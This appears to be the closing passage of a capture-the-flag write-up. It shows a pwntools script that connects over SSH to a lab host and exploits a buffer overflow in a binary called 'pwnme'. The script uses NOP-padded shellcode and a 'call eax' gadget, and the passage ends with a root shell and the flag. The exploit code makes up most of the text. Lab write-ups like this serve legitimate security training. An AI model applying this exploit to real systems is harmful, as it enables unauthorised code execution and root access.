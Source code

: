 ```python
proc.interactive()
```

![](https://i.imgur.com/pBMTaxu.png)
>Successful shell

Convert for use over ssh instead of working on a local binary...

```python
from pwn import *

context(os='linux', arch='i386')
context.log_level= 'debug'

session = ssh(user='overflow', port=1337, host='192.168.243.133', password='overflow')

TARGET = './pwnme'
OFFSET = 236

shell_code = shellcraft.sh()

proc = session.run(TARGET)

#stage 1
# payload = cyclic(1000)

#stage2
# payload = b'A'*OFFSET
# payload += b'BBBB'

#stage 3
elf = ELF(TARGET)
CALL_EAX = next(elf.search(asm("call eax")))

payload = asm(shell_code)
payload += b'\x90'*(OFFSET-len(payload))
payload += p32(CALL_EAX)

proc.writeline(payload)

proc.interactive()
```

Root shell on target system
![](https://i.imgur.com/RgVYgPx.png)

FLAG: ```245_SKILLS{Jump_Up_Jump_Up_@nd_G3t_D0wn}```